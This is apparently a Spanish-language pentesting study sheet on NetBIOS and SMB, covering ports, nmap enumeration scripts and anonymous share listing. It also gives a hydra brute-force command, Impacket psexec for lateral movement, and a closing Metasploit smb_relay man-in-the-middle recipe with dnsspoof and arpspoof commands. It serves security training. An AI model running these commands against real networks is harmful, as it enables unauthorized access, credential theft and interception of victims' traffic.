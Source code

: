 ## ¿Qué es NetBIOS?
**NetBIOS** (Network Basic Input/Output System) es una API que permite la comunicación entre dispositivos dentro de una red local (LAN). Originalmente diseñado para redes pequeñas, NetBIOS proporciona servicios básicos como:

- **Resolución de nombres**: Traduce nombres de dispositivos en direcciones IP.
- **Servicio de sesión**: Establece y mantiene conexiones entre dispositivos.
- **Servicio de datagramas**: Facilita el envío de datos sin conexión entre dispositivos.

En el contexto de **pentesting**, NetBIOS es relevante porque los servicios mal configurados pueden exponer información sensible, como nombres de dispositivos o usuarios.

## ¿Qué es SMB?
**SMB** (Server Message Block) es un protocolo utilizado para compartir archivos, impresoras y recursos entre dispositivos en una red. SMB opera sobre NetBIOS en redes antiguas, pero actualmente funciona principalmente sobre **TCP/IP**, usando el puerto 445.

### Características principales de SMB:
- Permite el acceso remoto a archivos y carpetas.
- Ofrece autenticación de usuarios para controlar el acceso a los recursos.
- Es utilizado por sistemas Windows y también compatible con otras plataformas (como Samba en Linux).

### Relevancia en Pentesting:
- Las versiones antiguas de SMB, como **SMBv1**, son vulnerables a ataques como **EternalBlue**, que fue explotado por el ransomware WannaCry.
- Servicios SMB expuestos pueden permitir la enumeración de usuarios, recursos compartidos y configuraciones de red.

## Puertos comunes
- **UDP 137**: Resolución de nombres NetBIOS.
- **UDP 138**: Datagramas NetBIOS.
- **TCP 139**: Sesión NetBIOS.
- **TCP 445**: SMB directo sobre TCP/IP.

## Herramientas útiles para analizar NetBIOS y SMB
- `nmap` con scripts específicos:
  - `nmap --script smb-enum-shares -p445 <IP>`
  - `nmap --script smb-os-discovery -p445 <IP>`
- `smbclient` para interactuar con recursos compartidos.
- `enum4linux` para enumerar información detallada de SMB.

## Enumeración del servicio

### `nbtscan red`
- **Descripción**: Escanea la red para descubrir nombres NetBIOS, direcciones IP y roles (como servidores o estaciones de trabajo).
- **Utilidad**: Nos permite identificar hosts activos en la red y sus nombres NetBIOS, que pueden incluir información relevante como el nombre del dominio.

### `nmblookup -A ip`
- **Descripción**: Consulta información NetBIOS de un host específico.
- **Utilidad**: Devuelve nombres de máquina, dominios y grupos de trabajo asociados con la dirección IP. Útil para identificar el entorno de red.

### `nmap -sV -p 139,445 ip`
- **Descripción**: Escanea los puertos 139 (NetBIOS) y 445 (SMB) e identifica los servicios y versiones en ejecución.
- **Utilidad**: Nos permite identificar la versión exacta de SMB que se ejecuta, lo que puede ser crucial para detectar vulnerabilidades conocidas.

### `nmap -p445 --script smb-protocols ip`
- **Descripción**: Utiliza un script de `nmap` para identificar qué versiones de SMB (como SMBv1, SMBv2, SMBv3) están habilitadas.
- **Utilidad**: Detectar el uso de SMBv1, que es vulnerable a múltiples exploits como EternalBlue.

### `nmap -p445 --script smb-security-mode ip`
- **Descripción**: Comprueba las políticas de seguridad SMB, como si permite autenticación débil o conexiones anónimas.
- **Utilidad**: Identifica configuraciones débiles que podrían ser aprovechadas para acceso no autorizado.

---

## Fuerza bruta y acceso anónimo

### `nmap -p445 --script smb-enum-users ip`
- **Descripción**: Enumera los usuarios disponibles en el servicio SMB utilizando un script de `nmap`.
- **Utilidad**: Revela usuarios potencialmente activos que pueden ser objetivo de ataques de fuerza bruta.

### `smbclient -L ip`
- **Descripción**: Lista los recursos compartidos disponibles en el host SMB. No se especifica contraseña para intentar un acceso anónimo.
- **Utilidad**: Comprueba si el servidor permite conexiones anónimas y revela recursos que pueden ser accedidos sin autenticación.

### `hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ip smb`
- **Descripción**: Realiza un ataque de fuerza bruta sobre SMB utilizando una lista de usuarios (`users.txt`) y una lista de contraseñas.
- **Utilidad**: Identificar credenciales válidas mediante fuerza bruta.

### `psexec.py administrator@ip`
- **Descripción**: Herramienta de `Impacket` para ejecutar comandos de forma remota utilizando SMB. Requiere credenciales válidas.
- **Utilidad**: Acceder remotamente a un host como administrador, ideal para movimiento lateral y control total del sistema.

---

### Aplicaciones prácticas
- **Enumeración inicial**: Identificar hosts, servicios SMB activos, versiones y configuraciones débiles.
- **Explotación**: Acceso anónimo, fuerza bruta de credenciales o explotación de vulnerabilidades en versiones antiguas como SMBv1.
- **Post-explotación**: Usar credenciales para ganar control total con herramientas como `psexec.py`.

---

## 🕵️‍♂️ Man-in-the-Middle (MITM) en SMB

### 🔥 Explotación con Metasploit

Utilizaremos el módulo **exploit/windows/smb/smb_relay** de **Metasploit**, que permite realizar ataques de relé SMB.

1️⃣ **Configurar el módulo en Metasploit**  
   - **SRVHOST** → Dirección IP del atacante (server).  
   - **LHOST** → IP del atacante para recibir conexiones inversas.  
   - **SMBHOST** → IP de la víctima (objetivo del ataque).  
   
```bash
use exploit/windows/smb/smb_relay
set SRVHOST ip_server
set LHOST ip_server
set SMBHOST ip_victim
run
```

### 📡 Configuración del spoofing DNS

Guardamos la IP del servidor atacante y el dominio DNS al que se dirigirá la víctima en un archivo de texto:

```bash
echo "ip_server *.dns" > dns.txt
```

Ahora usamos **dnspoof** para interceptar las consultas DNS y redirigirlas:

```bash
dnsspoof -i eth1 -f dns.txt
```

El siguiente paso es redirigir el tráfico de la víctima hacia el atacante mediante **ARP Spoofing**:

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward

arpspoof -i eth1 -t ip_victim gateway
#new tan
arpspoof -i eth1 -t gateway ip_victim
```

